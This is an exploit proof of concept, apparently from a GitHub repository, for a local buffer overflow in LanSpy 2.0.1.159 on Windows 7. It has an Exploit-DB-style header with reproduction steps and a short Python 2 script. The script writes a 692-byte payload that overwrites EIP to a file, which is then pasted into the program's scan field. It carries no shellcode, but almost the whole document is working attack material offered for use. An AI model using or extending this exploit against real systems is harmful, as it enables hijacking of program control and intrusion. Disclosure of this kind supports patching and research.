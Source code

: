 # LanSpy-2.0.1.159---Local-BoF
# Exploit Title: LanSpy 2.0.1.159 - Local BoF (PoC)
# Author: Gionathan "John" Reale
# Discovey Date: 2018-12-07
# Homepage: https://lizardsystems.com
# Software Link: https://lizardsystems.com/download/lanspy_setup.exe
# Tested Version: 2.0.1.159
# Tested on OS: Windows 7 32-bit
# Steps to Reproduce: Run the python exploit script, it will create a new 
# file with the name "exploit.txt" just copy the text inside "exploit.txt"
# and start the program. In the new window paste the content of 
# "exploit.txt" into the scan field. Click the start button.

#!/usr/bin/python
   
buffer = "A" * 688

eip = "B" * 4

payload = buffer + eip
try:
    f=open("exploit.txt","w")
    print "[+] Creating %s bytes evil payload.." %len(payload)
    f.write(payload)
    f.close()
    print "[+] File created!"
except:
    print "File cannot be created"
